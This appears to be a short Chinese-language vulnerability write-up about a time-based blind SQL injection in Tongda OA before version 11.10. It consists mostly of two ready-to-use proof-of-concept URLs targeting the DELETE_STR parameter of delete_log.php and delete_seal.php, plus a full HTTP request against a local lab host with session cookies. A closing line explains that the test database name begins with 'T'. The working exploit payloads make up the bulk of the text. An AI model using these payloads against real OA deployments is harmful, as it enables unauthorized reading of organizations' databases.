


通达OA版本11.10之前存在SQL注入。

通过时间延迟获取数据库信息

验证POC1：

```
/general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

验证POC2：

```
/general/system/seal_manage/iweboffice/delete_seal.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```


```

GET /general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 192.168.232.137:8098
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=1u7tsd1cpgp9qvco726smb50h5; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=779f3f46
Upgrade-Insecure-Requests: 1

```

本地环境的数据库为TD_OA

在ASCII码中84代表的是 T 



